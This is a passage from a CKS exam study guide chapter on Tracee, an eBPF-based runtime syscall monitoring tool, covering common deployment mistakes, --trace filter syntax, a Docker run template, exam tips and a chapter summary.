|---------|--------------------|-----------------|
| Forgetting `--pid=host` | Tracee sees incorrect PIDs; events don't correlate to host processes | Always include `--pid=host` |
| Not bind-mounting `/usr/src` | eBPF compilation fails — Tracee can't build against your kernel | Mount both `/lib/modules` and `/usr/src` |
| Not persisting `/tmp/tracee` | 10-30s recompilation every restart | Always mount `/tmp/tracee` read-write |
| Running `--trace pid=new` on a busy node without filters | Millions of events per minute — unmanageable | Add `--trace event=execve` or specific filters |
| Using `--trace container` (not `=new`) | Traces existing containers too — massive event flood on startup | Use `--trace container=new` to start clean |
| Deploying Tracee without resource limits | Tracee itself can consume significant CPU under high event volume | Set CPU/memory limits in DaemonSet |
| Assuming Tracee replaces Seccomp | Tracee detects; it doesn't prevent | Use both: Seccomp to block, Tracee to detect |

---

## Quick Reference — Tracee `--trace` Syntax

```bash
# ── CORE MODES ────────────────────────────────────────────────────
--trace comm=<name>             # Trace by process name
--trace pid=<number>            # Trace specific PID
--trace pid=new                 # All new PIDs from this moment
--trace container               # All containerized processes
--trace container=new           # New containers only
--trace uid=0                   # Root processes only

# ── EVENT FILTERING ───────────────────────────────────────────────
--trace event=execve            # Specific syscall
--trace event=execve,openat     # Multiple syscalls
--trace event=net_packet        # Network-level events

# ── OUTPUT ────────────────────────────────────────────────────────
--output json                   # JSON format
--output table                  # Human-readable (default)
--output file:/path/to/out.json # Write to file

# ── FULL DOCKER COMMAND TEMPLATE ─────────────────────────────────
docker run --name tracee --rm --privileged --pid=host \
  -v /lib/modules/:/lib/modules:ro \
  -v /usr/src:/usr/src:ro \
  -v /tmp/tracee:/tmp/tracee \
  aquasec/tracee:0.4.0 \
  --trace <filter> \
  --output json
```

---

## CKS Exam Tips for Tracee

The CKS exam tests Tracee at the conceptual and command level:



**Key exam facts:**
- Tracee uses **eBPF**, not `ptrace`
- The three required bind mounts: `/tmp/tracee`, `/lib/modules`, `/usr/src`
- Must use `--privileged` AND `--pid=host`
- `--trace container=new` is the most useful mode for Kubernetes
- Tracee **observes** but does not **block** — that's Seccomp's job (Ch. 12)

---

## Chapter Summary

| Concept | Key Takeaway |
|---------|-------------|
| **eBPF** | Sandboxed kernel programs — safe, verified, no kernel modification |
| **Tracee** | AquaSec's eBPF-based runtime security tool for syscall observation |
| **Why not strace** | 100× overhead; ptrace-based; cannot run in production |
| **Three bind mounts** | `/tmp/tracee` (cache), `/lib/modules` (module info), `/usr/src` (headers) |
| **`comm=ls`** | Trace all syscalls from processes named `ls` |
| **`pid=new`** | Trace all new processes from this moment on |
| **`container=new`** | Trace all syscalls from new containers — primary K8s use case |
| **JSON output** | Pipe to SIEM, Elasticsearch, or jq for analysis |
| **Tracee vs Seccomp** | Tracee = detect; Seccomp = prevent. Use together. |

---

## What's Next

- **Chapter 12 — Restrict Syscalls Using Seccomp:** Use the syscall list you discovered with Tracee to build BPF-based filters that actively block dangerous calls before they reach the kernel
- **Chapter 13 — Implement Seccomp in Kubernetes:** Apply Seccomp profiles via `securityContext` and RuntimeDefault
- **Chapter 14 — AppArmor:** The companion tool — while Seccomp filters by syscall number, AppArmor filters by what those syscalls access (files, network, capabilities)

---

*Sources: [AquaSec Tracee GitHub](https://github.com/aquasecurity/tracee), KodeKloud CKS Course, Linux eBPF Documentation, Brendan Gregg's eBPF resources*
